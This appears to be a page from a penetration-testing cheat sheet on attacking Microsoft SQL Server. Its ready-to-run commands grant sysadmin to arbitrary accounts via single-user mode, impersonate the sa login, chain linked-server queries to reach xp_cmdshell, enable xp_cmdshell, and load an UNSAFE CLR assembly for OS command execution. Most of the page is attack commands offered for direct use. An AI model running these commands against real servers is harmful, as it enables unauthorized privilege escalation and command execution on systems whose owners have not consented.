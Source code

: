 # MSSQL attacks

### SA single mode technique

{% hint style="info" %}
This technique can be used to add any user as SYSADMIN \(sa\).

It requires Local Administrator privilege on the box.
{% endhint %}

1. Stop the services \(both server and agent\)

![](../../../../.gitbook/assets/image%20%28205%29.png)

    2. Using an elevated command prompt, start the server into Single Mode \( `-m`\)

```csharp
"C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlservr.exe" -m  -sSQLEXPRESS
```

![](../../../../.gitbook/assets/image%20%28223%29.png)

  3. Download SQLCMD utility from Microsoft website:

{% embed url="https://go.microsoft.com/fwlink/?linkid=2142258" %}

  4. From an another cmd prompt, use SQLCMD to connect to the server:

```csharp
sqlcmd -S SQLUAT
```

  5. Grant sa access to anyone

```csharp
sp_addsrvrolemember 'crook\homer_potter', 'sysadmin'
GO
sp_addsrvrolemember 'crook\sqladmin', 'sysadmin'
GO
```

![](../../../../.gitbook/assets/image%20%28251%29.png)

  6. Restart the SQL server as usual and enjoy.

![](../../../../.gitbook/assets/image%20%28213%29.png)

### Impersonation 

#### List impersonation account

```csharp
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

### Login As

```csharp
EXECUTE AS LOGIN = 'sa'
```

### RPC out

#### Enumeration

```csharp
select * from master..sysservers
```

![](../../../../.gitbook/assets/image%20%2887%29.png)

### Database Links

```csharp
select * from openquery("SERVER01", 'select * from master..sysservers')
```

```csharp
select * from openquery("sql1",'select * from openquery("server2",''select * from openquery("server3",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

### XP\_cmdshell Stored Procedures

#### shell

```csharp
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
exec master..xp_cmdshell "powershell ls /"
```

![](../../../../.gitbook/assets/image%20%2847%29.png)

### Custom Assemblies

```text
EXECUTE AS LOGIN = 'sa';
USE msdb;  EXEC sp_configure 'show advanced options',1 ; RECONFIGURE ;
EXEC sp_configure 'clr enabled',1; RECONFIGURE ;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE ;
DROP PROCEDURE IF EXISTS dbo.cmdExec ;
DROP ASSEMBLY IF EXISTS myAssembly;
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
EXEC cmdExec 'whoami';
```

![](../../../../.gitbook/assets/image%20%28116%29.png)

